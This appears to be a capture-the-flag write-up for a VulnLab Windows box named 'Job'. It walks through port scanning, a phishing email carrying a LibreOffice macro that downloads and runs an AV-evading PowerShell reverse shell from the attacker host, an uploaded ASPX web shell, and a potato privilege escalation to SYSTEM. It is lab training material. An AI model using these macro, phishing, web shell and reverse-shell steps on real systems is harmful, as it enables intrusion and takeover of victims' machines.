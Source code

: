 ```yaml
---
title: "Job Writeup (VulnLab)"
date: 2024-12-22 00:00:00 +0800
image: /assets/posts/job/pwnedProof2.png
description: A medium rated box on vulnlab, using phishing for initial access, lateral movement and windows privilege exploitation.
categories: [CTF Writeups]
tags: [CTF, Red Team, Phishing, AV Evasion, Potato Attacks]
---
```


## NMAP Port Scan
A basic TCP port scan was done with NMAP to enumerate running services on the machine:
```bash
sudo nmap -sS -sV -A -p- 10.10.86.141 -oA nmap
```
The NMAP Output revealed that port 25,80,445 and 3389 were running:
![NMAP Scan Result](../assets/posts/job/nmapscanresult.png)

## Discovery of an email address

In the previous NMAP scan, port 80 revealed that the http title was 'Job.local'. The address was subsequently added to the /etc/hosts file:
```bash
sudo nano /etc/hosts
```
![Hosts File](../assets/posts/job/hostsfile.png)

Browsing to the HTTP server hosted, the index.html file revealed interesting information:
![HTTP Page1](../assets/posts/job/http1.png)
The webpage states an email address 'career@job.local' while hinting at a potential phishing attack vector using libre office.


## Creating a malicious ODT file
First, I opened libreoffice and pasted Lorem Ipsum in there so the document wasn't empty:
![Lorem Ipsum](../assets/posts/job/loremjob.png)

Browse to tools->macros->organize macro's->basic & create a new macro filename.odt->standard->new
![Macros](../assets/posts/job/odtmacro1.png)
![Macro2](../assets/posts/job/odtmacro2.png)

The following code was embedded into the macro to download and execute the reverse shell: 
```bash
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.194/security.ps1')""")
End Sub
```

(NOTE: security.ps1 will be made in the next section).
It is important that the macro is immediately trigged, to achieve that we can add it to trigger when the document is opened tools->macros->organize macros->basic->select the created macro->assign->events->open document:
![Macro3](../assets/posts/job/odtmacro3.png)

Save the file and we will be ready to move onto creating an obfuscated reverse shell.

## Creating an obfuscated reverse shell
To ensure there was no hiccups with antivirus or AMSI, I utilised [Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) which is an excellent tool for creating obfuscated powershell payloads. This was used to generate our payload to eventually be downloaded when the malicious ODT file will be opened:
```bash
git clone https://github.com/gh0x0st/Get-ReverseShell
pwsh
Get-ReverseShell -Ip 10.8.4.194 -Port 53 > security.ps1
```


## Catching a shell as jack.black
A python3 http.sever must be setup to recieve download requests (same folder as malicious document):
```bash
python3 -m http.server 80
```
Now an NC Listener can be setup on the port chosen for the reverse shell, in this instance it was port 53:
```bash
nc -lvnp 53
```

Finally, we can send our document to the discovered email address using 'sendemail':
```bash
sendemail -s "job.local" \
-f "ross@job.local" \
-t "career@job.local" \
-o tls=no \
-m "Hi, I've attached my CV to the email. Please open it immediately" \
-a me.odt    
```

A short while later, our reverse shell file was downloaded from the web server and the shell was triggered on the machine:
![Shell](../assets/posts/job/shellproofjack.png)

## Switching to IIS Apppool
Viewing inetpub/wwwroot and checking if it was writable to potentially move into IIS Apppool
```bash
Get-Acl "C:\inetpub\wwwroot" | Format-List
```

The output shows that it is writable and it contains a hello.aspx file.
![inetpub](../assets/posts/job/inetpubenum.png)
![inetpub2](/assets/posts/job/inetpubenum2.png)

[SharPyShell](https://github.com/antonioCoco/SharPyShell) is a repository containing a script that can generate and interact with an obfuscated aspx file, we can use this to generate a file that can be later interacted with:
```bash
python3 SharPyShell.py generate -p somepassword
```

Now we can upload the aspx file to the machine via powershell after starting another python3 web server on the attacker machine:
```bash
python3 -m http.server 80
```

```bash
(New-Object Net.WebClient).DownloadFile('http://10.8.4.194:80/shell.aspx','C:\inetpub\wwwroot\shell.aspx')
```
![inetpub3](../assets/posts/job/inetpubenum3.png)

Following from the shell upload, we can interact with it via sharpyshell again to gain a HTTP interactive shell as IIS Apppool.
```bash
python3 SharPyShell.py interact -u http://job.local/shell.aspx -p somepassword
```
![inetpub4](../assets/posts/job/inetpubenum4.png)

## Abusing windows privileges to admin
Viewing account privileges on the apppool showed that SeImpersonatePrivilege was available:
```bash
whoami /priv
```
![privesc1](../assets/posts/job/privesc1.png)

From here gaining administrator privileges was relatively simple, we can use a potato exploit. In this instance I opted to use SigmaPotato https://github.com/tylerdotrar/SigmaPotato, to use this transfer it from the attacker machine to the host machine using sharpy's webshell.
```bash
#upload /opt/PrivEsc/Windows/Exploits/Potato/SigmaPotato.exe
```
Then execute sigmapotato connecting to your setup nc listener:
```bash
SigmaPotato.exe --revshell 10.8.4.194 443
```

We eventually receive a callback on the shell as NT authority\system.
![pwned](../assets/posts/job/pwned.png)
PWNED!
